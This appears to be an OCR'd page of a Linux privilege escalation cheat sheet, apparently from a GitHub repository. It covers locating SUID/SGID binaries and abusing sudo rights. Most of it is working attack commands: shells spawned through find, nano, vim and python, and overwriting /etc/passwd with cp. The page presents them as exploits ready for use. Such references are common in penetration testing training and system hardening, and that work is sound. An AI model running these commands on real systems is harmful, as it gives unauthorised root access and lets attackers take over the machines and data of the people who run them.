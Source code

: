 ## SUID/SGID Binaries

SUID (Set User ID) and SGID (Set Group ID) binaries run with the privileges of the file owner/group:

1. Find SUID/SGID binaries:
```bash
# Find SUID binaries
find / -type f -perm -4000 -ls 2>/dev/null

# Find SGID binaries
find / -type f -perm -2000 -ls 2>/dev/null
```

2. Investigate each binary using GTFOBins (https://gtfobins.github.io/) to identify potential privilege escalation vectors.

Example exploits:

Using `find` for privilege escalation:
```bash
find . -exec /bin/sh -p \; -quit
```

Using `nano` for privilege escalation:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

Using `cp` to overwrite sensitive files:
```bash
cp /tmp/malicious_passwd /etc/passwd
```

## Sudo Rights

Check what commands you can run with sudo:

```bash
sudo -l
```

Common sudo privilege escalation vectors:

1. Running commands with sudo:
```bash
# If you can run any command as sudo
sudo -i

# If you can run vim as sudo
sudo vim -c '!sh'

# If you can run find as sudo
sudo find . -exec /bin/sh \; -quit

# If you can run python as sudo
sudo python -c 'import os; os.system("/bin/sh")'
```
